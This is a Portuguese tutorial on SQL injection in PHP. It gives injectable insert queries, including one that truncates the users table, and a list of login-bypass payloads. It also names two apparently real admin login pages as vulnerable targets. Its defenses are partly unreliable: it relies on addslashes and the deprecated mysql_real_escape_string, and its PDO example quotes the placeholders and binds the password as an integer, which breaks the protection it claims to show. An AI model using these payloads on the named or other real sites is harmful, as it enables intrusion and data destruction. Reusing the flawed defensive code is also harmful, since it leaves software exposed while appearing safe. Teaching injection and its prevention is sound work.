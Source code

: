 # SQL Injection

Injeção direta de comandos SQL é uma técnica onde um atacante cria ou altera comandos SQL existentes para expor dados escondidos, ou sobrescrever dados valiosos, ou ainda executar comandos de sistema perigosos no servidor. Isso é possível se a aplicação pegar a entrada do usuário e combinar com parâmetros estáticos para montar uma consulta SQL.

 * Para evitar ataques deve-se tratar todos os dados de entrada que será utilizado em algum SQL, pode se tratar estes dados utilizando a função addslashes(), está função adiciona uma barra invertida antes de qualquer aspas simples e duplas.

 * Deve-se desabilitar os erros no servidor em produção de forma que se consiga apenas visualiza-los através de arquivos de logs.

 * A função mysql_real_escape_string() que escapa os caracteres especiais numa string para usar em um comando SQL, levando em conta o conjunto atual de caracteres.

 * Outra opção é utilizar o objeto PDO para executar as SQLs, pois usa-se o método bindParam para setar parametros nas query que serão executadas, se alguma irregularidade existir o MySQL não executará a query.

<br />

1) Exemplo de inserção de parametros sem tratamento:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = '123456';

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />
2) Exemplo de inserção de parametros para se tentar provocar um erro de SQL com o intuito de tentar descobrir o nome da tabela:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'asdfasdfasdfasdfasdf";

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

3) Apagando todos os registros de usuários do sistema através do SQL injection:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'; truncate table usuarios;";

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

4) Como poderia ser evitado utilizando a função mysql_real_escape_string():
```php
$nome = mysql_real_escape_string('Pedro');
$email = mysql_real_escape_string('pedro@oi.com.br');
$senha = mysql_real_escape_string("123456'; truncate table usuarios;");

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

5) Utilizando objeto PDO para executar as querys no banco:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'; truncate table usuarios;";

$sql = "insert into usuarios set nome = ':nome', email = ':email', senha = ':senha'"; 
$stmt = $pdo->prepare($sql);
$stmt->bindParam(':nome', $nome, PDO::PARAM_STR);
$stmt->bindParam(':email', $email, PDO::PARAM_STR);
$stmt->bindParam(':senha', $senha, PDO::PARAM_INT);
$stmt->execute();
```

<br />
Exemplos:

```php
' or ''='
' or true--
' or true
") or true--
") or ("")=("
") or 1--
") or ("x")=("
')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('
```

Sites vulneráveis:<br />
* http://www.i2t2.com/admin/login.php
* http://www.bitaraf.com/admin/login.php

<br />
Referências:

 * http://php.net/manual/pt_BR/security.database.SQL-injection.php
 * http://php.net/manual/pt_BR/function.mysql-real-escape-string.php
 * http://bazaglia.com/como-evitar-completamente-SQL-injection-no-php
 * http://securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html
